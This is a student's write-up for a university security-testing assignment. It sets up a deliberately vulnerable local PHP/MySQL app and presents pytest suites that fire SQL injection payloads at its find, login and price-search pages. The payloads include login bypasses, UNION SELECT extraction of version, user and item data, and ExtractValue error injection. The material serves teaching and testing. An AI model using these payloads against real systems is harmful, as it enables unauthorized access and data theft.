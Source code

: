 # DESCRIPTION

In this assignment, you will build a new test suite that tests the target application for Union-based SQL Injections, similar to the one you built in Assignment 1.

While in Assignment 1 you could use plain Python for your test suite, for this assignment you will use pytest to organize and run your tests steps.

This is very similar to using plain Python: you can create tests as simple Python functions, but the name of the function must always start with "test_". 

Also, these functions should be in a Python file, which must also have a name that starts with "test_".

If you structure your code like this, you should only need to install pytest (pip install pytest) and run the "pytest" command from the folder that contains these files. 

Tests will be automatically run.

Here is an example of a simple pytest file:

    def test_this_always_succeeds():
        assert True

    def test_this_always_fails():
        assert False

    def test_succeeds_implicitly():
        # logic here
        pass

Notice that you can "assert False" if you want to make the test fail, but you can have implicit success for tests (or you can also specify "assert True")

# Environment Setup

If you haven't done it already, you should set up a local MySQL server.
You can follow the guides I shared on AulaWeb for that.
Then, download the archive that contains all the environment files.

Once you set up the environment, change the credentials from the mysql_credentials.php file to the ones you are using

    $mysql_server = "localhost"; // or any host on which you deployed it
    $mysql_user = "root";
    $mysql_pass = "MyCoolPassword1!"; // The password you set up during installation

You can now populate your MySQL instance using the .sql files in the setup folder. For example, you can run the following commands:

    $ cd setup
    $ mysql -u root -p < create-database.sql
    $ mysql -u root -p fstt23_assignment < create-users.sql
    $ mysql -u root -p fstt23_assignment < create-items.sql

Once the MySQL server is set up, you can run the target environment.

WARNING: due to how the built-in server and the MySQL modules work, you will need to run the following command, instead of the usual one

    php -d "display_errors=1" -S localhost:4000

Alternatively, you can add the following line at the beginning of every PHP file in the target:
    ini_set('display_errors', 1); 
    
# Testing

For each page of the target application, you should design and implement a test step that checks:

- if the page is working correctly (e.g., for login pages, that the login is working correctly)
- if the page is vulnerable to SQL injection.

In particular, you should test the page for Union-based and Error-based SQL Injections (but you can also have additional steps, if you want).
Tests should take into account all possible variants of syntax and insufficient sanitization that could be applied to the page.

Confirmation step
One easy way to confirm that the attack was successful is to retrieve the MySQL version via the VERSION() SQL function, or the user for the current connection, which can be retrieved via the USER() function. Of course, you can use any other value you prefer to confirm the exploit.

## Conclusions

This test suite produce requests in GET and POST to all the pages reported in this directory.

The test for find pages reported in the following, produce us the visualization of SQL injection on a find page for an item stored in a database attacking the search GET param.:

    @pytest.mark.parametrize("url, payload", [
        ("/find.php", "' OR 1=1 LIMIT 1 OFFSET 0; -- -"),
        ("/find.php", "' UNION SELECT VERSION(), USER() -- -"),
        ("/find.php", "' UNION ALL SELECT name AS NameOfItem, price AS Price FROM fstt23_assignment.items -- -"),
        ("/find.php", "' AND ExtractValue(0, CONCAT( 0x5c, User() ) ) -- -"),
        ("/find3.php", "' OR 1=1 LIMIT 1 OFFSET 0; -- -"),
        ("/find3.php", "' UNION SELECT VERSION(), USER() -- -"),
        ("/find3.php", "' UNION ALL SELECT name AS NameOfItem, price AS Price FROM fstt23_assignment.items -- -"),
        ("/find3.php", "' AND ExtractValue(0, CONCAT( 0x5c, User() ) ) -- -"),
        ("/find2.php", '" OR 1=1 LIMIT 1 OFFSET 0; -- -'),
        ("/find2.php", '" UNION SELECT VERSION(), USER() -- -'),
        ("/find2.php", '" UNION ALL SELECT name AS NameOfItem, price AS Price FROM fstt23_assignment.items -- -'),
        ("/find2.php", '" AND ExtractValue(0, CONCAT( 0x5c, User() ) ) -- -'),
    ])
    def test_find_pages(base_url, url, payload):
        response = requests.get(base_url + url, params={"search": payload})
        assert "error in your SQL syntax" not in response.text
        assert any(keyword in response.text for keyword in ["Apple", "8.0.32", "root", "172.17.0.1"])


In this way we are able to see all the injections that makes us find an Item from the database and which one fails in this goal.

Moreover the test suite for the login pages perform POST requests and we want to see if we are able to inject well and not retrieve the message "Wrong username or password"

    @pytest.mark.parametrize("url, payload", [
        ("/login.php", {"user": "admin' -- -", "pass": "anything"}),
        ("/login.php", {"user": "anything", "pass": "any' OR 'a'='a"}),
        ("/login.php", {"user": "anything", "pass": "any' OR True LIMIT 2,1 -- -"}),
        ("/login2.php", {"user": "admin' -- -", "pass": "anything"}),
        ("/login2.php", {"user": "admin", "pass": "any' OR 'a'='a"}),
        ("/login2.php", {"user": "anything", "pass": "any' OR True LIMIT 2,1 -- -"}),
        ("/login3.php", {"user": "admin' -- -", "pass": "anything"}),
        ("/login3.php", {"user": "anything", "pass": "a' OR 'b'='b"}),
        ("/login3.php", {"user": "anything", "pass": "a' OR True LIMIT 2,1 -- -"}),
    ])
    def test_login_pages(base_url, url, payload):
        response = requests.post(base_url + url, data=payload)
        assert "Wrong username or password" not in response.text

In this case we can see that the login pages have fixed the user param so we can't attacking the db using the user param but we need to focus more on the password parameter that only in the login3.php page is sanitized and so we can't be able to perform any attack on that particular page as we can see from the pytest output.

Now we can move to the search_by_price pages that are similar to the find pages but in this case we are attacking a parameter that serves only for a comparison in the query so its a little bit different to organize and performs the tests:

    @pytest.mark.parametrize("url, payload", [
        ("/search_by_price.php", {"max": "0 OR 1=1 LIMIT 1 OFFSET 0; -- -"}),
        ("/search_by_price.php", {"max": "0 UNION ALL SELECT name, price FROM fstt23_assignment.items -- -"}),
        ("/search_by_price.php", {"max": "0 UNION SELECT VERSION(), USER() -- -"}),
        ("/search_by_price2.php", {"max": "0 OR 1=1 LIMIT 1 OFFSET 0; -- -"}),
        ("/search_by_price2.php", {"max": "0 UNION ALL SELECT name, price FROM fstt23_assignment.items -- -"}),
        ("/search_by_price2.php", {"max": "0 UNION SELECT VERSION(), USER() -- -"}),
        ("/search_by_price3.php", {"max": "0 OR 1=1 LIMIT 1 OFFSET 0; -- -"}),
        ("/search_by_price3.php", {"max": "0 UNION ALL SELECT name, price FROM fstt23_assignment.items -- -"}),
        ("/search_by_price3.php", {"max": "0 UNION SELECT VERSION(), USER() -- -"}),
        ("/search_by_price4.php", {"max": "0 OR 1=1 LIMIT 1 OFFSET 0; -- -"}),
        ("/search_by_price4.php", {"max": "0 UNION ALL SELECT name, price FROM fstt23_assignment.items -- -"}),
        ("/search_by_price4.php", {"max": "0 UNION SELECT VERSION(), USER() -- -"})
    ])
    def test_search_by_price_pages(base_url, url, payload):
        response = requests.get(base_url + url, params=payload)
        assert "error in your SQL syntax" not in response.text
        assert any(keyword in response.text for keyword in ["Apple", "8.0.32", "root", "172.17.0.1", "2."])

In this case we can notice that all the injection have success even if we don't know the price we are able to find and display all the items/prices of the items stored in the database. In this way, utilizing those SQL injections as Payload of the max parameter even if we have real_escape_string we are able to "attack the database".

All the error based injections are blocked and avoided because the error is thrown out when preparing the query directly in the terminal of the mysql database so it is not displayed into the pages in this way.
